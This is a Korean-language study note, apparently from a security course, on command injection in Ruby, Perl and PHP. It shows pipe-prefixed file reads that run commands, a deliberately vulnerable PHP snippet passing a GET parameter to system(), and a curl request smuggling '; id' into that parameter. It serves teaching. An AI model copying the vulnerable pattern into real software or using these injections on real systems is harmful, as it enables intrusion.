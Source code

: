 <br/>

* 공격 예시
    - Ruby: Command Injection 예시
        ```ruby
        # irb(main):... > 다음에 입력
        open("|id > /tmp/1")
        # 결과: #<IO:fd 11>
        IO.read("/tmp/1")
        # 결과: "uid=1000(...) gid=1000(...) groups=1000(...)\n"

        IO.read("|id")
        # 결과: "uid=1000(...) gid=1000(...) groups=1000(...)\n"

        IO.binread("|id");
        # 결과: "uid=1000(...) gid=1000(...) groups=1000(...)\n"
        ```
        + ```rb_io_s_binread```, ```rb_io_open```, ```rb_io_s_read```를 사용한 ```IO.read```, ```IO.binread``` 등이 전달된 인자에 따라 프로세스를 실행함
            | 함수 | 설명 |
            |:---:|------|
            | ```IO.read``` | 파일을 열고 length의 바이트를 반환함 (default: the rest of the file) [🔗](https://ruby-doc.org/core-2.5.1/IO.html#method-c-binread) <br/> &nbsp;&nbsp; - (Optional) offset을 지정할 경우 지정된 오프셋을 찾음 <br/> &nbsp;&nbsp; - ```\|``` 문자로 시작하는 경우 ```open``` 함수와 동일하게 하위 프로세스가 생성됨 → 임의 명령어를 실행할 수 있음 |
            | ```IO.binread``` | 파일을 열고 length의 바이트를 반환함 (default: the rest of the file) [🔗](https://ruby-doc.org/core-2.5.1/IO.html#method-c-read) <br/> &nbsp;&nbsp; - (Optional) offset을 지정할 경우 지정된 오프셋을 찾음 <br/> &nbsp;&nbsp; - ```IO.binread``` 함수의 정의를 보면 ```rb_io_open_generic``` 함수를 호출하는 것을 알 수 있음 <br/> &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; → ```\|``` 문자가 포함되어 있으면 임의 명령어를 실행할 수 있음 |
            - 각 함수의 인자로 ```|``` 문자와 함께 명령어를 입력하면 커맨드를 처리해 이를 실행함
    - Perl: Command Injection 예시
        ```perl
        # 터미널에서 입력
        $ perl -e 'open A, "|id"'
        # 결과: uid=1000(...) gid=1000(...) groups=1000(...)
        ```

<br/><br/>

### PHP
* ```system``` 함수
    - PHP에서 시스템 명령어를 실행하기 위해 제공하는 함수 [🔗](https://www.php.net/manual/en/function.system.php)
        ```php
        system(string $command, int &$result_code = null): string|false
        ```
        + 실행할 명령(```$command```)와 결과 코드(```$result_code```)를 매개변수의 값으로 받음
            - ```$result_code```는 선택사항으로, 존재할 경우 실행할 명령의 반환 상태가 여기에 기록됨
        + 함수 실행에 성공하면 명령의 마지막 줄(```string```)을 반환하고, 실패하면 ```false```를 반환함 
    - Commnad Injection에 취약한 코드 예시
        ```php
        <?php
            $cmd = "ls ".$_GET['filename']." 2>&1";
            system($cmd);
        ?>
        ```
        ```linux
        $ curl 'http://dreamhack.local/a.php?filename=-al /etc/passwd; id'
        -rw-r--r-- 1 root root 1602 May  4 04:35 /etc/passwd → ls -al 명령어의 실행 결과
        uid=1000(dreamhack) gid=1000(dreamhack) groups=1000(dreamhack) → id 명령어의 실행 결과
